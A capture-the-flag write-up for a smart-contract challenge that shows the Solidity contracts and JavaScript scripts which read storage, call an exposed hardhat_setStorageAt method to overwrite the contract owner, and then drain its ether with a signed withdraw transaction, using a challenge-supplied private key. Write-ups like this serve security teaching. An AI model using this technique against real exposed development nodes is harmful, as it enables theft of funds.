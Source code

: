 # Blockchain in dev - web3

## Contracts

### Challenge

We get one challenge contract, and want to get all value of it out of the contract. We also receive a address (including private key) on the chain which we can use to sign transactions.

```solidity
// SPDX-License-Identifier: UNLICENSED
pragma solidity 0.8.1;

import "@openzeppelin/contracts/access/Ownable.sol";

contract Challenge is Ownable{

	constructor() payable {
        require(msg.value == 100 ether,"100ETH required for the start the challenge");
	}

    function withdraw(address payable beneficiary) public onlyOwner {
        beneficiary.transfer(address(this).balance);
    }
}
```

We also get the setup contract, as well as it's address.

```solidity
// SPDX-License-Identifier: UNLICENSED
pragma solidity 0.8.1;
import "./Challenge.sol";

contract Setup {
	Challenge public chall;

	constructor() payable {
		require(msg.value >= 100, "Not enough ETH to create the challenge..");
		chall = (new Challenge){ value: 50 ether }();
	}

	function isSolved() public view returns (bool) {
		return address(chall).balance == 0;
	}
}

```

The challenge description mentions that the blockchain was deployed using hardhat.


## Solution

First we want to get the address where our challenge contract was deployed. This can be done by retrieiving storage(0) of the setup contract.

```js
const Web3 = require('web3');

// create a new instance of the web3 object
const web3 = new Web3('https://blockchainindev.insomnihack.ch:32889');

// set the address of the contract
const contractAddress = '0x444A7432CCb1F393Ac6c5642298F403E32128F0a';

// call the getStorageAt() function to retrieve the value stored at index 0
web3.eth.getStorageAt(contractAddress, 0, (error, result) => {
  if (error) {
    console.error(error);
  } else {
    console.log('Challenge:', result);
  }
});
```

Then it's also helpful if we can check for what the owner of the challenge currently is to be able to debug.

```js
const Web3 = require('web3');

// create a new instance of the web3 object
const web3 = new Web3('https://blockchainindev.insomnihack.ch:32915');

// set the address of the contract
const contractAddress = '0xbd3333aa8b94e3eb97cdf6638676bbbfcfdb9bc6';

// call the getStorageAt() function to retrieve the value stored at index 0
web3.eth.getStorageAt(contractAddress, 0, (error, result) => {
  if (error) {
    console.error(error);
  } else {
    console.log('Owner:', result);
  }
});
```

After some groundwork we can start exploiting. The idea I had, which also was the exploit in the end, was that we could leverage some hardhat functionality to change the blockchain data as we want. I used the setStorageAt() function to just overwrite the owner of the challenge contract, so we can easily drain it.

```js
const { ethers } = require('hardhat');

const provider = new ethers.providers.JsonRpcProvider('https://blockchainindev.insomnihack.ch:32915');

const toBytes32 = (bn) => {
  return ethers.utils.hexlify(ethers.utils.zeroPad(bn.toHexString(), 32));
};

const setStorageAt = async (address, index, value) => {
  await provider.send("hardhat_setStorageAt", [address, index, value]);
  await provider.send("evm_mine", []); // Just mines to the next block
};

(async () => {
  await setStorageAt(
    "0xbd3333aa8b94e3eb97cdf6638676bbbfcfdb9bc6",
    "0x0",
    "0x000000000000000000000000133756e1688E475c401d1569565e8E16E65B1337"
  );
})();
``` 

When we have overwritten the owner we can easily drain it. Script below:

```js
const Web3 = require('web3');
const abi = require('./abi.json');

const privateKey = '0xedbc6d1a8360d0c02d4063cdd0a23b55c469c90d3cfbc2c88a015f9dd92d22b3';
const account = '0x133756e1688E475c401d1569565e8E16E65B1337';
const contractAddress = '0xbd3333aa8b94e3eb97cdf6638676bbbfcfdb9bc6';
const recipientAddress = '0x133756e1688E475c401d1569565e8E16E65B1337';
const rpcUrl = 'https://blockchainindev.insomnihack.ch:32915';

const web3 = new Web3(rpcUrl);
const contract = new web3.eth.Contract(abi, contractAddress);

async function withdraw(recipient) {
  const nonce = await web3.eth.getTransactionCount(account);
  const gasPrice = await web3.eth.getGasPrice();

  const functionAbi = contract.methods.withdraw(recipient).encodeABI();

  const txParams = {
    to: contractAddress,
    data: functionAbi,
    gasPrice: gasPrice,
    gas: 100000, // Add the gas parameter with a value of your choice
    nonce: nonce
  };

  const signedTx = await web3.eth.accounts.signTransaction(txParams, privateKey);
  const txReceipt = await web3.eth.sendSignedTransaction(signedTx.rawTransaction);
  console.log(`Transaction Hash: ${txReceipt.transactionHash}`);
}

withdraw(recipientAddress);
```
--> Flag